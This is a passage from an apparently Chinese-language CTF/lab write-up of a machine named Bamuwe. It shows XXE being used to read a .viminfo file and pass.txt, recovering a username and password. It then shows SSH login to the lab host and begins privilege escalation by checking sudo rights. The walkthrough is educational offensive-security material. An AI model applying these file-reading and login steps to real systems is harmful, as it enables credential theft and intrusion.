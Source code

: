 * **发现凭据:**
  发送请求后，服务器返回的响应中包含了 `/home/welcome/.viminfo` 文件的内容。可以看到，之前的用户读取了`pass.txt`

  ![XXE Result - Credentials in .viminfo](https://7r1umphk.github.io/image/20250430203435219.png)

  我们通过xxe获取pass.txt文件，可以得到

  ```html
  <div class='result'>Registration Status: Email 【welcome:bd7787d41a6b28e9976873cf6a8445fe
  】 submitted!</div>
  ```

  成功提取到凭据：`welcome:bd7787d41a6b28e9976873cf6a8445fe`

### 3.3. 登录系统 (Gaining Access)

获得了 `welcome` 用户的用户名和密码，我立即尝试通过 SSH 登录目标系统。

```bash
┌──(kali㉿kali)-[~]
└─$ ssh welcome@192.168.205.197
The authenticity of host '192.168.205.197 (192.168.205.197)' can't be established.
ED25519 key fingerprint is SHA256:O2iH79i8PgOwV/Kp8ekTYyGMG8iHT+YlWuYC85SbWSQ.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:5: [hashed name]
    ~/.ssh/known_hosts:7: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.205.197' (ED25519) to the list of known hosts.
welcome@192.168.205.197's password: 
Linux Bamuwe 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Apr 11 22:27:59 2025 from 192.168.3.94
welcome@Bamuwe:~$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
```

成功以 `welcome` 用户身份登录目标系统。

## 4. 权限提升 (welcome -> root - Sudo Misconfiguration & MQTT Abuse)

### 4.1. 以 welcome 身份进行信息收集 (Enumeration as welcome)

登录后，首要任务是寻找权限提升的途径。我首先检查了 `welcome` 用户的 `sudo` 权限。

```bash
welcome@Bamuwe:~$ sudo -l
Matching Defaults entries for welcome on Bamuwe:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on Bamuwe:
    (ALL) NOPASSWD: /opt/sub.sh
```
